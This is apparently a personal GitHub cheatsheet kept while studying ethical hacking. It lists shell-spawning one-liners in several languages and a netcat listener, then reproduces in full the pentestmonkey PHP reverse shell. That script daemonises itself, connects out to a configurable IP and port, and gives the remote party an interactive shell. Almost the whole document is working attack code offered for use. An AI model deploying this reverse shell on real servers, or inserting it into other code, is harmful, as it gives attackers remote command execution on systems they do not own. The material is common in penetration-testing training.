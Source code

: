 # MyHackingCheatsheet
while I am studing ethical hacking I will add usefull commands and scripts
<h4>shell spawn</h4>
<ul>
    <li>python3 -c 'import pty; pty.spawn("/bin/bash")'</li>
    <li>echo os.system('/bin/bash')</li>
    <li>/bin/bash -i</li>
    <li>perl —e 'exec "/bin/bash";'</li>
    <li>perl: exec "/bin/bash";</li>
    <li>ruby: exec "/bin/bash"</li>
    <li>lua: os.execute('/bin/bash')</li>
</ul>

<h4>php reverse shell  script </h4>
<p>nc -lvnp 1234</p>
<pre><?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
    
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    
    //
    // Daemonise ourself if possible to avoid zombies later
    //
    
    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
        
        if ($pid == -1) {
            printit("ERROR: Can't fork");
            exit(1);
        }
        
        if ($pid) {
            exit(0);  // Parent exits
        }
    
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
            printit("Error: Can't setsid()");
            exit(1);
        }
    
        $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }
    
    // Change to a safe directory
    chdir("/");
    
    // Remove any umask we inherited
    umask(0);
    
    //
    // Do the reverse shell...
    //
    
    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }
    
    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );
    
    $process = proc_open($shell, $descriptorspec, $pipes);
    
    if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
    }
    
    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);
    
    printit("Successfully opened reverse shell to $ip:$port");
    
    while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
            break;
        }
    
        // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
            break;
        }
    
        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
            if ($debug) printit("SOCK READ");
            $input = fread($sock, $chunk_size);
            if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }
    
        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
            if ($debug) printit("STDOUT READ");
            $input = fread($pipes[1], $chunk_size);
            if ($debug) printit("STDOUT: $input");
            fwrite($sock, $input);
        }
    
        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
            if ($debug) printit("STDERR READ");
            $input = fread($pipes[2], $chunk_size);
            if ($debug) printit("STDERR: $input");
            fwrite($sock, $input);
        }
    }
    
    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
    
    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
        if (!$daemon) {
            print "$string\n";
        }
    }
    
    ?> </pre>
